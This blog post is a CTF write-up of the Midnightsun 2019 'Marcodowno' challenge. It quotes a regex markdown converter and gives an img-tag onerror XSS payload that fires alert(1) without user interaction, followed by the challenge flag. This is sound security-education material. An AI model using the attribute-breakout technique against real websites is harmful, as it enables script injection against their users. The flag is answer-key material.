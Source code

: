 ```yaml
---
layout:     post
title:      'Midnightsun CTF 2019 - Marcodowno'
date:       2019-04-06 0:00:00
author:     'W3ndige'
permalink: /:title/
category: 'Midnightsun CTF 2019'
---
```


This challenge I decided to go for a cool challenge, `marcodowno`, in which we had to find XSS vulnerability that pops `alert(1)` without the user interaction. After successfuly doing it in our client, we had to paste the working solution in the form of `URL` into a service that would check it, and upon correct exploitation, grant us a flag. 

Upon visiting a website, we can see a service that converts `markdown` input into a `html` code and views it. 

![Marcodowno-website](/img/midnightsun/marcodowno-website.png)

If we view the source of the website, the main part that converts the page is a simple `regexp` one liner searching for `markdown` components and replacing them with `html`. 

```javascript
input = decodeURIComponent(location.search.match(/input=([^&#]+)/)[1]);

function markdown(text){
  text = text.replace(/[<]/g, '').replace(/----/g,'<hr>').replace(/> ?([^\n]+)/g, '<blockquote>$1</blockquote>').replace(/\*\*([^*]+)\*\*/g, '<b>$1</b>').replace(/__([^_]+)__/g, '<b>$1</b>').replace(/\*([^\s][^*]+)\*/g, '<i>$1</i>').replace(/\* ([^*]+)/g, '<li>$1</li>').replace(/##### ([^#\n]+)/g, '<h5>$1</h5>').replace(/#### ([^#\n]+)/g, '<h4>$1</h4>').replace(/### ([^#\n]+)/g, '<h3>$1</h3>').replace(/## ([^#\n]+)/g, '<h2>$1</h2>').replace(/# ([^#\n]+)/g, '<h1>$1</h1>').replace(/(?<!\()(https?:\/\/[a-zA-Z0-9./?#-]+)/g, '<a href="$1">$1</a>').replace(/!\[([^\]]+)\]\((https?:\/\/[a-zA-Z0-9./?#]+)\)/g, '<img src="$2" alt="$1"/>').replace(/(?<!!)\[([^\]]+)\]\((https?:\/\/[a-zA-Z0-9./?#-]+)\)/g, '<a href="$2">$1</a>').replace(/`([^`]+)`/g, '<code>$1</code>').replace(/```([^`]+)```/g, '<code>$1</code>').replace(/\n/g, "<br>");
  return text;
}

window.onload=function(){
  $("#markdown").text(input);
  $("#rendered").html(markdown(input));
}
```

I immedietally went for something which can spawn the XSS without the user interaction, which is `img` tag. Let's take a look at the part converting `[]()` notation into a `<img>`.

```javascript
.replace(/!\[([^\]]+)\]\((https?:\/\/[a-zA-Z0-9./?#]+)\)/g, '<img src="$2" alt="$1"/>')
```

As we can see, we can put any characters in the first brackets, while in the source brackets we have to have something starting with `https://`. We can check that with [this](https://regexr.com/).

![Marcodowno-regexp](/img/midnightsun/marcodowno-regexp.png)

After regexp finds an exact match, it will place the content of the second brackets just where `$2` is, while content of first brackets inside `$1` in the `img src="$2" alt="$1"/>`. As you can probably see already, we can put inside the second brackets `"` character to break out of `alt`, the use `onerror=alert(1)` to spawn the XSS.

```markdown
!["onerror="alert(1)](https://asd.asd)
```

![Marcodowno-xss](/img/midnightsun/marcodowno-xss.png)

After that we can submit the `URL` into a service and get the flag. 

```
midnight{wh0_n33ds_libs_wh3n_U_g0t_reg3x?}
```